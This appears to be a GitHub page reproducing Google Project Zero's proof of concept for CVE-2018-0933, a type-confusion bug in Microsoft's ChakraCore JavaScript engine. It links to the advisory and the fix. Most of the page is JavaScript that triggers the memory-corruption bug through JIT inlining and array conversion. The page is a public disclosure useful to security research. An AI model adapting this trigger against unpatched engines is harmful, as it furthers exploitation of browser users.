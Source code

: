 # CVE-2018-0933

- Fix: Mar 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function inlinee() {
    return inlinee.arguments[0];
}

function opt(convert_to_var_array) {
    /*
    To make the in-place type conversion happen, it requires to segment.
    */

    let stack_arr = [];

    // Allocate stack_ar->head to the heap
    stack_arr[20] = 1.1;

    stack_arr[10000] = 1.1;
    stack_arr[20000] = 2.2;

    let heap_arr = inlinee(stack_arr);
    convert_to_var_array(heap_arr);

    stack_arr[10000] = 2.3023e-320;

    return heap_arr[10000];
}

function main() {
    for (let i = 0; i < 10000; i++)
        opt(new Function(''));  // Prevents to be inlined

    print(opt(heap_arr => {
        heap_arr[10000] = {};  // ConvertToVarArray
    }));
}
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0933)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1502)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/6d5532d867202bc2e1b8b6b8c6f9c1c44a0f5ab8)